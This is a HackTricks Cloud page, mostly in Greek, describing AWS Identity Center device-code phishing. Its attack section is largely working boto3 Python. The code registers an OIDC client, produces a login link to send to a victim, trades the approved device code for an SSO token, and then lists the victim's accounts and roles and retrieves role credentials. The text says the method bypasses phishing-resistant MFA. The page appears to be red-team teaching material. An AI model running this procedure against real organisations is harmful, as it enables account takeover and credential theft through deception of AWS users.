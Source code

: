 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Αρχικά προτάθηκε σε [**αυτή την ανάρτηση blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), είναι δυνατόν να σταλεί ένα **link** σε έναν χρήστη που χρησιμοποιεί AWS SSO, το οποίο αν **αποδεχθεί** ο χρήστης, ο επιτιθέμενος θα μπορέσει να αποκτήσει ένα **token για να προσποιηθεί τον χρήστη** και να έχει πρόσβαση σε όλους τους ρόλους που μπορεί να έχει πρόσβαση ο χρήστης στο **Identity Center**.

Για να εκτελεστεί αυτή η επίθεση, οι προϋποθέσεις είναι:

* Το θύμα πρέπει να χρησιμοποιεί το **Identity Center**
* Ο επιτιθέμενος πρέπει να γνωρίζει το **subdomain** που χρησιμοποιεί το θύμα `<victimsub>.awsapps.com/start`

Μόνο με τις προηγούμενες πληροφορίες, ο **επιτιθέμενος θα μπορέσει να στείλει ένα link στον χρήστη** που αν **αποδεχθεί** θα παραχωρήσει στον **επιτιθέμενο πρόσβαση στον λογαριασμό χρήστη AWS**.

### Επίθεση

1. **Εύρεση του subdomain**

Το πρώτο βήμα του επιτιθέμενου είναι να ανακαλύψει το subdomain που χρησιμοποιεί η εταιρεία του θύματος στο Identity Center τους. Αυτό μπορεί να γίνει μέσω **OSINT** ή **μαντεψιού + BF**, καθώς οι περισσότερες εταιρείες θα χρησιμοποιούν το όνομά τους ή μια παραλλαγή του ονόματός τους εδώ.

Με αυτές τις πληροφορίες, είναι δυνατόν να αποκτηθεί η περιοχή όπου έχει ρυθμιστεί το Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Δημιουργήστε τον σύνδεσμο για το θύμα & Στείλτε τον**

Run the following code to generate an AWS SSO login link so the victim can authenticate.\
Για την επίδειξη, εκτελέστε αυτόν τον κώδικα σε μια κονσόλα python και μην βγείτε από αυτήν καθώς αργότερα θα χρειαστείτε κάποια αντικείμενα για να αποκτήσετε το token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Στείλτε τον παραγόμενο σύνδεσμο στο θύμα χρησιμοποιώντας τις καταπληκτικές σας ικανότητες κοινωνικής μηχανικής!

3. **Περιμένετε μέχρι το θύμα να το αποδεχτεί**

Αν το θύμα ήταν **ήδη συνδεδεμένο στο AWS**, θα χρειαστεί απλώς να αποδεχτεί την παροχή των δικαιωμάτων, αν δεν ήταν, θα χρειαστεί να **συνδεθεί και στη συνέχεια να αποδεχτεί την παροχή των δικαιωμάτων**.\
Αυτή είναι η εμφάνιση του προτροπής σήμερα:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Αποκτήστε το SSO access token**

Αν το θύμα αποδέχτηκε την προτροπή, εκτελέστε αυτόν τον κώδικα για να **δημιουργήσετε ένα SSO token προσποιούμενοι τον χρήστη**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Το διακριτικό πρόσβασης SSO είναι **έγκυρο για 8 ώρες**.

5. **Προσωποποιήστε τον χρήστη**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Είναι διασκεδαστικό να γνωρίζουμε ότι η προηγούμενη επίθεση **λειτουργεί ακόμη και αν χρησιμοποιείται ένα "unphisable MFA" (webAuth)**. Αυτό συμβαίνει επειδή η προηγούμενη **ροή εργασίας δεν αφήνει το χρησιμοποιούμενο OAuth domain**. Όχι όπως σε άλλες επιθέσεις phishing όπου ο χρήστης πρέπει να υποκαταστήσει το domain σύνδεσης, στην περίπτωση που η ροή κωδικού συσκευής είναι προετοιμασμένη έτσι ώστε ένας **κωδικός να είναι γνωστός από μια συσκευή** και ο χρήστης μπορεί να συνδεθεί ακόμη και σε διαφορετική μηχανή. Εάν γίνει αποδεκτή η προτροπή, η συσκευή, απλά γνωρίζοντας τον αρχικό κωδικό, θα είναι σε θέση να **ανακτήσει διαπιστευτήρια** για τον χρήστη.

Για περισσότερες πληροφορίες σχετικά με αυτό [**δείτε αυτή την ανάρτηση**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

